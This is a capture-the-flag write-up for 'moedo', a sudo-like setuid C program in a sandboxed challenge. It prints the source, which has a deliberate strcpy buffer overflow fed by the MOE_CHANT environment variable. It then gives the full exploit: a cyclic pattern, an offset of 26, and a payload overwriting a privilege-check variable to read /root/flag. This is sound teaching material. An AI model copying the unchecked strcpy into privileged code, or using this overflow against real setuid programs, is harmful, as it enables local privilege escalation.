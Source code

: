 ```yaml
---
title: moedo
date: 2023-09-03 13:02:00 + 0530
categories: [writeup, pwn]
tags: [urmia]     # TAG names should always be lowercase
---
```


## The Challenge

> We've created a moe alternative to sudo called moedo.
If you can bypass its moe secuirty you'll be awarded with the flag!
```
telnet moe.uctf.ir 7002
Username: mashiro
Password: Qh3VRn@23jv43Q
```

**moedo** source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <grp.h>

#define MOE_ENOUGH 0x30e

int check_moe(int uid)
{
    struct group *moe_group = getgrnam("moe");
    int moeness = 0;

    int ngroups;
    gid_t *groups;

    if (moe_group == NULL)
        return 0;

    ngroups = getgroups(0, NULL);
    groups = malloc(ngroups * sizeof(*groups));
    getgroups(ngroups, groups);
    for (int i = 0; i < ngroups; i++)
    {
        if (groups[i] == moe_group->gr_gid)
        {
            moeness = MOE_ENOUGH;
            break;
        }
    }

    free(groups);
    return moeness;
}

int main(int argc, char *argv[])
{
    uid_t uid = getuid();
    uid_t gid = getgid();
    int moeness = check_moe(uid);

    char *custom_chant = getenv("MOE_CHANT");
    char chant[] = "Moe Moe Kyun!";

    if (argc < 2)
    {
        fputs("Missing command\n", stderr);
        return 1;
    }

    if (custom_chant)
        strcpy(chant, custom_chant);

    printf("UID: %u - GID: %u - Moe: %x\n", uid, gid, moeness);

    if (moeness != MOE_ENOUGH)
    {
        fputs("You're not moe enough!\n", stderr);
        return 1;
    }

    if (setuid(0) != 0)
    {
        perror("setuid() failed");
        return 1;
    }
    if (setgid(0) != 0)
    {
        perror("setgid() failed");
        return 1;
    }

    puts(chant);

    if (execvp(argv[1], &argv[1]) != 0)
    {
        perror("execv() failed");
        return 1;
    }

    return 0;
}
```

## The Solution

We are given a *sandboxed Alpine linux* to connect to via telnet. We also have credentials for a `mashiro` user.

After logging in, it tells us that the flag is located at `/root/flag` and our task simple, **read it**.

Obviously something like `cat /root/flag` doesn't work because we don't have the permission to do so. And `sudo` doesn't exist here, in fact the challenge tells us that they have developed an alternative called `moedo`.

So if we try using `moedo`:

```console
moehost:~$ moedo "cat /root/flag"
UID: 1001 - GID: 1001 - Moe: 0
You're not moe enough!
moehost:~$
```

Hmm...maybe its time to view the source code which they provided:

```c
    if (moeness != MOE_ENOUGH)
    {
        fputs("You're not moe enough!\n", stderr);
        return 1;
    }

    if (setuid(0) != 0)
    {
        perror("setuid() failed");
        return 1;
    }
    if (setgid(0) != 0)
    {
        perror("setgid() failed");
        return 1;
    }

    puts(chant);

    if (execvp(argv[1], &argv[1]) != 0)
    {
        perror("execv() failed");
        return 1;
    }
```

This precisely tells us that our `cat` command will be executed with elevated privileges if we can bypass the `moeness != MOE_ENOUGH` if-statement.

`MOE_ENOUGH` is explicitly defined as `0x30e`. And our `moeness` variable is calculated via the `check_moe()` function. The function itself doesn't seem to have any noticable vulnerabilities ( *at least for me* ). So I looked at the main function has found the bug:

```c
if (custom_chant)
 strcpy(chant, custom_chant)
```

The classic `strcpy` vulnerability which allows us to overflow local variables in the `main()` method. I then generated cyclic pattern using `MsF` for 100 bytes:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

since 100 bytes are sure to overflow the simple `chant[]` buffer:

```c
char chant[] = "Moe Moe Kyun!";
```

Then I set those bytes as `MOE_CHANT` env variable and run the program:

```console
moehost:~$ export MOE_CHANT="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
moehost:~$ moedo "cat /root/flag"
UID: 1648439650 - GID: 1093689921 - Moe: 39614138
You're not moe enough!
Segmentation fault
moehost:~$ 
```

Here we see a seg fault, which is a good sign. But also the content in the `moeness` variable = `39614138`. This can be used to calculate the offset for overflowing this variable:

```console
$ msf-pattern_offset -q 39614138                                                                                    
[*] Exact match at offset 26
$ 
```

To test it, we will set `MOE_CHANT` env variable as `"A" * 26 + "BCDE` and run the program:

```console
moehost:~$ export MOE_CHANT="AAAAAAAAAAAAAAAAAAAAAAAAAABCDE"
moehost:~$ moedo "cat /root/flag"
UID: 1001 - GID: 768 - Moe: 45444342
You're not moe enough!
moehost:~$
```

Great we can successfully control the `moeness` variable. Now let's replace the `BCDE` in env variable as 0x30e ( in little endian format ) and try again:

```console
moehost:~$ export MOE_CHANT="$(printf 'AAAAAAAAAAAAAAAAAAAAAAAAAA\xe\x03')"
moehost:~$ moedo cat /root/flag
UID: 1001 - GID: 1001 - Moe: 30e
AAAAAAAAAAAAAAAAAAAAAAAAAA
uctf{m45h1r0_d1dn7_61v3_up}
moehost:~$
```

BOOM! We got the flag

## FLAG

`uctf{m45h1r0_d1dn7_61v3_up}`

